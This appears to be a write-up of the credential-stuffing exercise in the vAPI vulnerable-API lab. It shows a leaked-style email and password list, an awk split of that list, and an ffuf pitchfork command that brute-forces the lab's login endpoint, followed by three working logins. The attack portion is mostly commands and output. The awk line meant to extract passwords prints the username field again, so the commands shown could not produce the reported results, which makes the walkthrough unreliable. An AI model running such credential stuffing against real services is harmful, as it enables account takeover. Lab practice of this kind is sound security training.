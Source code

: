 This are credentials provided

```
 luka@yokai  ~/dckr/vapi/Resources/API2_CredentialStuffing   master  head -n 5 creds.csv 

brown.grimes@hotmail.com,w_5yhfEN
reuben.heaney@hotmail.com,8JhcB_mH
dcronin@robel.com,V$qe{8+3
hcollier@veum.com,vVsU7/yN
vemard@gmail.com,gRfJ3$U7
```

There are 2 endpoints present:

![picture 8](/assets/images/fc53c4d85fea5306d4a6f90c58dd74ba24e4ca7cd32fad4370ea87dd82ca7ee4.png)  

I've set a proxy to Burp and sent a request to brute-force the credentials provided!

I've splited the `creds.csv` into 2 separate files

```
# Users
cat creds.csv | awk -F"," '{print $1}' > users
# Passwords
cat creds.csv | awk -F"," '{print $1}' > passes
```

In Burp, we'll use `Pitchfork` mode.

Alternatively, we could process single file twice in Burp, usernames before the comma and passwords after the comma.

We can brute-force credentials using FFUF as well

```
ffuf -w users:USERS -w passes:PASS -u http://vapi.local/vapi/api2/user/login -d '{"email":"USERS","password":"PASS"}' -H "Content-Type: application/json" -mode pitchfork -mc all -fc 401
```

FFUF ended up with 3 working credentials:

```
[Status: 200, Size: 89, Words: 1, Lines: 1, Duration: 1769ms]
    * USERS: savanna48@ortiz.com
    * PASS: zTyBwV/9

[Status: 200, Size: 89, Words: 1, Lines: 1, Duration: 1971ms]
    * USERS: hauck.aletha@yahoo.com
    * PASS: kU-wDE7r

[Status: 200, Size: 89, Words: 1, Lines: 1, Duration: 1829ms]
    * USERS: harber.leif@beatty.info
    * PASS: kU-wDE7r
```

